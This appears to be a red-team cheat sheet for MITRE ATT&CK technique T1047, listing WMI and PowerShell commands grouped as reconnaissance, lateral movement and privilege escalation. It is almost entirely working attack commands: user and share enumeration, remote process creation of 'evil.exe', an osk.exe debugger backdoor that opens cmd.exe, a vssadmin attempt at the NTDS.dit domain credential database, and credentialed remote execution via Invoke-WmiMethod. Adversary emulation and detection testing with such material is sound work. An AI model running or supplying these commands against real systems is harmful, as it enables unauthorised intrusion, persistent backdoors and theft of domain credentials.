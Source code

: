 ﻿## Windows Management Instrumentation

MITRE ATT&CK Technique: [T1047](https://attack.mitre.org/wiki/Technique/T1047)

### Reconnaissance

Input:

    wmic useraccount get /ALL

Input:

    wmic process get caption,executablepath,commandline

Input:

    wmic qfe get description,installedOn /format:csv

Input:

    wmic /node:"192.168.0.1" service where (caption like "%sql server (%")

Input:

    get-wmiobject –class "win32_share" –namespace "root\CIMV2" –computer "targetname"

### Lateral Movement

Input:

    wmic /user:<username> /password:<password> /node:<computer_name> process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"

Input:

    wmic /NODE: "192.168.0.1" process call create "evil.exe"

### Privileged Escalation

Input:

    wmic /node:REMOTECOMPUTERNAME PROCESS call create "at 9:00PM c:\GoogleUpdate.exe ^> c:\notGoogleUpdateResults.txt"

Input:

    wmic /node:REMOTECOMPUTERNAME PROCESS call create "cmd /c vssadmin create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\not_the_NTDS.dit"

### WMI Via Powershell

    #WMI via Powershell Manually
    $Username = “Domain\User”
    $Password = “Password”
    $IPAddress = “10.0.0.1”
    $Command = “cmd /c calc.exe”
    $PSS = ConvertTo-SecureString $Password -AsPlainText -Force
    $Creds = New-Object system.management.automation.PSCredential $Username,$PSS
    $WMIResult = Invoke-WmiMethod -Path Win32_process -Name create -ComputerName $IPAddress -
    Credential $Creds -ArgumentList $Command

    If ($WMIResult.Returnvalue -eq 0) {Write-Output "Executed WMI Command with Success: $Command `n"}
    else {Write-Output "WMI Command Failed - Could be due to permissions or UAC `n“}
